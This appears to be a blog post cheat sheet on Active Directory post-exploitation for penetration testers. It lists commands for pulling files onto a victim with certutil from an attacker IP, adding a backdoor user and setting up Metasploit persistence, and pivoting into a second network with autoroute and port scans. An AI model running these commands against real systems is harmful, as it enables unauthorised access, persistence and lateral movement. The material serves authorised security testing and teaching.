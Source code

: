+++
title = "Compromising AD - Part 4: Post Exploitation"

date = "2021-08-17T12:35:53+05:30"

tags = ["active-directory", "cybersecurity", "windows", "red-teaming"]
+++


# Post Exploitation

---

- [Post Exploitation](#post-exploitation)
	- [File-Transfers](#file-transfers)
	- [Maintaining-Access](#maintaining-access)
	- [Pivoting](#pivoting)
		- [Setup and Pivot!](#setup-and-pivot)
	- [Cleanup](#cleanup)
		- [Make the system/network as it was when you entered it.](#make-the-systemnetwork-as-it-was-when-you-entered-it)
	- [Next \>\> Useful Active Directory Resources](#next--useful-active-directory-resources)


<br>

## File-Transfers

---

- Certutil

		certutil.exe -urlcache -f http://10.10.10.10/file.txt file.txt

- HTTP - Change to the directory you want to host
	
		python -m SimpleHTTPServer [port]

- Browser 

		Navigate directly to the file (%20 for spaces)

- FTP

	- On Attacker Machine

			python -m pyftpdlib 21

	- On Victim Machine, Browse to
	
			ftp 10.10.10.10

- Linux

		wget https://example.com/example.txt

<br>

## Maintaining-Access

---

- Add a user 
	
		net user hacker password 123 /add

- Persistence Scripts 
	
		run persistence -h 
	
		exploit/windows/local/persistence 
	
		exploit/windows/local/registry_persistence 

- Scheduled Tasks 
	
		run scheduleme 
	
		run schtaskabuse 


<br>

## Pivoting

---

Suppose you're on **`192.168.x.x`** **Network** and so your Victim is.

But when you get a shell into machine, you try the following commands:

	printroute
	ipconfig

And you notice that there is **another network** (say **`eth1` `10.10.10.x`**)

How do we **get into the other network?**

We do something called as **PIVOTING -> ->** 

<br>

### Setup and Pivot!

Fire up `msfconsole` and **Route** to the other network

	run autoroute -s 10.10.10.0/24
	
**List** all the routes

	run autoroute -p 

**Background** that session

	background 

**Let's Pivot** into that Machine (`10.10.10.x` Network)

	use scanner/portscan/tcp

Set the **RHOST** and an **Open Port** (Since we know it's **AD**, we can use **445**)

	set RHOSTS 10.10.10.2
	set PORTS 445

	run

You have **successfully pivoted** into that machine! (which you didn't even know about because of **different network**) 

<br>

## Cleanup

---

### Make the system/network as it was when you entered it.

- Remove **executables**, **scripts**, and **added files.** 

- Remove **malware**, **rootkits**, and **added user accounts.**

- Set settings back to **original configurations.**

<br>

***:) Nice Work, Good Luck on Pentests!***

## [Next >> Useful Active Directory Resources](https://auti.dev/compromising-ad-part-3-post-compromise-attacks/)